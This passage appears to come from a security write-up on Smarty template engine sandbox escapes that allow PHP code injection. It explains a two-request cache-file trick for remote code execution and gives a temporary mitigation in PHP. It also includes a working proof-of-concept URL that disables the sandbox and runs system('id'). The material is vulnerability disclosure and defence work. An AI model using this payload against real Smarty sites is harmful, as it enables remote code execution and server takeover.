 ![static call exploitation](/assets/images/smarty-template-engine-multiple-sandbox-escape-php-code-injection-vulnerabilities/ee383bc0049942a4af666fd5954caa64.png)

The reason the request needs to be triggered twice is that the first time the cache file is written and then overwritten. The second time the cache is triggered and the file is included for remote code execution.

##### Mitigation

As a temporary workaround, the `static_classes` property can be nulled out in a custom security policy to prevent access to the `Smarty_Internal_Runtime_WriteFile` class. However, this comes at a cost and will heavily reduce functionality. For example, in the [Yii](https://www.yiiframework.com/extension/yiisoft/yii2-smarty/doc/guide/2.0/en/template-syntax) framework access to `Html::mailto`, `JqueryAsset::register` and other static method calls will not will not work.

```php
$my_security_policy = new Smarty_Security($smarty);
$my_security_policy->static_classes = null;
$smarty->enableSecurity($my_security_policy);
```

I don't consider this a complete mitigation since this is not enabled by default when turning secure mode on and doesn't address the root cause of the vulnerability.

#### The Sandbox Disabling Technique

Suppose we have a harder target that doesn't use the default security mode and instead attempts to define it's own security policy as with the [Hardened Sandbox](#hardened-sandbox) example. It's still possible to bypass this environment since we can get access to the `Smarty` instance and can use it to disable the sandbox and render our php code directly.

##### Proof of Concept

```txt
http://localhost:8000/page.php?poc=string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(\'id\')}')}
```

![property access and method call exploitation](/assets/images/smarty-template-engine-multiple-sandbox-escape-php-code-injection-vulnerabilities/11a277f9d6a24de682a01e9da4f09df0.png)
